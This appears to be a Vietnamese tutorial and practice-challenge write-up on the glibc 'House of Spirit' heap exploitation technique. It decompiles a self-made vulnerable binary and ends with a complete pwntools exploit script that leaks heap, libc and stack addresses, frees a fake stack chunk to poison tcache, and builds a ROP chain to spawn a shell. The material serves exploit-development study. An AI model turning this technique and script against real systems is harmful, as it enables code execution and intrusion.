

# House of Spirit
## Mở đầu
- House of Spirit sẽ free fake chunk vào fastbin hoặc tcache, fastbin sẽ khó hơn vì có các security check.
- House of Spirit sẽ cố gắng tạo fake chunk để free 1 chunk có địa chỉ từ stack và free nó vào bin, sau đó UAF.
## House of Spirit (fastbin)
### Security check
```c
/* Like chunksize, but do not mask SIZE_BITS.  */
#define chunksize_nomask(p)         ((p)->mchunk_size)
/* The chunk header is two SIZE_SZ elements, but this is used widely, so
   we define it here for clarity later.  */
#define CHUNK_HDR_SZ (2 * SIZE_SZ)
#define INTERNAL_SIZE_T size_t      // tuỳ vào cấu trúc 32 hay 64 bit
#define SIZE_SZ (sizeof (INTERNAL_SIZE_T))
av->system_mem = 128kb
...
if (__builtin_expect (chunksize_nomask (chunk_at_offset (p, size))
            <= CHUNK_HDR_SZ, 0)
|| __builtin_expect (chunksize (chunk_at_offset (p, size))
                >= av->system_mem, 0))
    {
bool fail = true;
/* We might not have a lock at this point and concurrent modifications
    of system_mem might result in a false positive.  Redo the test after
    getting the lock.  */
if (!have_lock)
    {
    __libc_lock_lock (av->mutex);
    fail = (chunksize_nomask (chunk_at_offset (p, size)) <= CHUNK_HDR_SZ
        || chunksize (chunk_at_offset (p, size)) >= av->system_mem);
    __libc_lock_unlock (av->mutex);
    }

if (fail)
    malloc_printerr ("free(): invalid next size (fast)");
    }

```
- Ở fastbin, ta cần tạo 2 fake chunk
```
    +-------+---------------------+------+
    | 0x00: | Chunk # 0 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x08: | Chunk # 0 size      | 0x60 |
    +-------+---------------------+------+
    | 0x10: | Chunk # 0 content   | 0x00 |
    +-------+---------------------+------+
    | 0x60: | Chunk # 1 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x68: | Chunk # 1 size      | 0x40 |
    +-------+---------------------+------+
    | 0x70: | Chunk # 1 content   | 0x00 |
    +-------+---------------------+------+
```
- Khi này ta free chunk 1, security check ở trên sẽ kiểm tra next chunk (chunk 2)
- Chỉ cần thoả mãn size chunk 2 > 16 và < 128kb (16 < size < 128kb)

## House of spirit (tcache)
- Có vẻ khi tcache không kiểm tra next chunk, chỉ cần ta free địa chỉ hợp lệ.

## Ex
- Mình có tạo 1 chall để tập luyện khai thác house of Spirit

### IDA 
```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int size; // [rsp+0h] [rbp-120h] BYREF
  int size_4; // [rsp+4h] [rbp-11Ch] BYREF
  int v7; // [rsp+8h] [rbp-118h] BYREF
  int v8; // [rsp+Ch] [rbp-114h]
  __int64 *v9; // [rsp+10h] [rbp-110h]
  void *buf; // [rsp+18h] [rbp-108h]
  __int64 s[17]; // [rsp+20h] [rbp-100h] BYREF
  __int64 v12; // [rsp+A8h] [rbp-78h] BYREF
  unsigned __int64 v13; // [rsp+118h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  init(argc, argv, envp);
  v9 = s;
  buf = &v12;
  memset(s, 0, 0xF0uLL);
  while ( 1 )
  {
LABEL_2:
    puts("====================================");
    puts("*** CONG TY TNHH HOUSE OF SPIRIT ***");
    puts("====================================");
    puts("1. Create");
    puts("2. Remove");
    puts("3. Write for fun");
    puts("4. Gift");
    printf("> ");
    __isoc99_scanf("%d", &size_4);
    switch ( size_4 )
    {
      case 1:
        puts("Size: ");
        __isoc99_scanf("%ud", &size);
        v8 = 0;
        break;
      case 2:
        puts("idx: ");
        __isoc99_scanf("%ud", &v7);
        free((void *)s[v7]);
        s[v7] = 0LL;
        continue;
      case 3:
        puts("write for fun");
        read(0, buf, 0x60uLL);
        continue;
      case 4:
        if ( s[6] )
        {
          puts("Gift: ");
          printf("%ld\n", v9);
        }
        continue;
      case 5:
        return v13 - __readfsqword(0x28u);
      default:
        continue;
    }
    while ( v8 <= 7 )
    {
      if ( !s[v8] )
      {
        s[v8] = (__int64)malloc(size);
        puts("Content: ");
        read(0, (void *)s[v8], size);
        puts("Content: ");
        printf("%s\n", (const char *)s[v8]);
        goto LABEL_2;
      }
      ++v8;
    }
  }
}
```
# Chuẩn bị
```python
def create(size, content):
        sla(b'> ', '1')
        sla(b': ', str(size).encode())
        sa(b': ', content)
def remove(idx):
        sla(b'> ', '2')
        sla(b': ', str(idx).encode())
def write(payload):
        sla(b'> ', '3')
        sa(b'fun\n', payload)
def gift():
        sla(b'> ', '4')
        p.recvuntil(b't: \n')
        return int(p.recvline(keepends = False).decode())
```
# Phân tích 
- Đầu tiên option 1 không giới hạn size, ta có thể leak libc bằng unsorted bin
- Thứ 2 option 2 không kiểm tra idx, có nằm trong khoảng 0 đến <= 7 (có thể free các địa chỉ khác)
- Thứ 3 option 3 cho phép ta viết vào vùng nhớ stack ở ngay dưới mảng lưu các địa chỉ heap
- Thứ 4 là leak stack
> từ 2 3 4 ta có thể tận dụng option 3 để fake chunk và 1 địa chỉ trỏ vào fake chunk, sau đó vì option 2 không kiểm tra idx nên ta có thể free địa chỉ trỏ đến fake chunk đó

# Khai thác
## Leak heap (có thể không cần thiết)
- Để leak được heap đầu tiên ta sẽ malloc mà size là 0 để chương trình làm tròn là 0x20. Sau đó free chunk đó đi và malloc size 0 lại lần nữa
> Mục đích size 0 là để khi read thì chúng ta không phải nhập gì tránh ghi đè
```python
create(8, b'a') # 0
remove(0)
create(8, b'0') # 0
p.recvuntil(b'tent: \n')
heap = u64(p.recvline(keepends = False).ljust(8, b'\0')) <<12
print(hex(heap))
```

## Leak libc
- Leak libc bằng unsorted bin, khi chunk trong unsorted sẽ chứa 2 địa chỉ libc, ta sẽ ghi đè địa chỉ thứ nhất đế tận dụng %s địa chỉ thứ 2
```python
create(0x500, b'a\n') # 1
create(0x50, b'a') # 2
remove(1)
create(0x500, b'a'*8) #1, count = 2
p.recvuntil(b'a' *8)
libc.address = u64(p.recvline(keepends = False).ljust(8, b'\0')) - 0x219ce0
info("libc address: " + hex(libc.address))
```
## Leak stack

```python
create(0x50, b'a\n') # 3
create(0x50, b'a\n') # 4
create(0x50, b'a\n') # 5
create(0x50, b'a\n') # 5
stack = gift()  
info("Stack: " + hex(stack))
```

## Fake chunk
```python
payload = flat(
        stack+0xa0,
        0, 0x60,
        0, 0,
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
```
## Free fake chunk
- Mục đích free 2 chunk 5 6 để tăng biến count trong tcache, khi unlink ta còn lượt count để malloc
```python
remove(5)
remove(6)
remove(17)
```
## UAF
```python
payload = flat(
        (stack+0xa0),
        0, 0x60,
        (stack + 0x100) ^ (stack + 0xa0) >> 12, 0, # ret main ^ fake chunk >> 12
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
```
## ROP
- Ta có option 5 để kết thúc chương trình nên mình chọn nó để ROP
```python
create(0x50, b'a')
rop = ROP(libc)
payload = flat(
        stack, 
        rop.find_gadget(['ret']).address,
        rop.find_gadget(['pop rdi', 'ret']).address, next(libc.search(b'/bin/sh')),
        libc.sym.system
)
create(0x50, payload)
```

## script
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('example_hos_fastbin', checksec=False)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''

                b*main+628
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)

GDB()
def create(size, content):
        sla(b'> ', '1')
        sla(b': ', str(size).encode())
        sa(b': ', content)
def remove(idx):
        sla(b'> ', '2')
        sla(b': ', str(idx).encode())
def write(payload):
        sla(b'> ', '3')
        sa(b'fun\n', payload)
def gift():
        sla(b'> ', '4')
        p.recvuntil(b't: \n')
        return int(p.recvline(keepends = False).decode())
create(8, b'a') # 0
remove(0)
create(8, b'0') # 0
p.recvuntil(b'tent: \n')
heap = u64(p.recvline(keepends = False).ljust(8, b'\0')) <<12
print(hex(heap))

create(0x500, b'a\n') # 1
create(0x50, b'a') # 2
remove(1)
create(0x500, b'a'*8) #1, count = 2
p.recvuntil(b'a' *8)
libc.address = u64(p.recvline(keepends = False).ljust(8, b'\0')) - 0x219ce0
info("libc address: " + hex(libc.address))

create(0x50, b'a\n') # 3
create(0x50, b'a\n') # 4
create(0x50, b'a\n') # 5
create(0x50, b'a\n') # 5
stack = gift()  
info("Stack: " + hex(stack))

payload = flat(
        stack+0xa0,
        0, 0x60,
        0, 0,
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
remove(5)
remove(6)
remove(17)
payload = flat(
        (stack+0xa0),
        0, 0x60,
        (stack + 0x100) ^ (stack + 0xa0) >> 12, 0,
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
create(0x50, b'a')
rop = ROP(libc)
payload = flat(
        stack, 
        rop.find_gadget(['ret']).address,
        rop.find_gadget(['pop rdi', 'ret']).address, next(libc.search(b'/bin/sh')),
        libc.sym.system
)
create(0x50, payload)
p.interactive()
```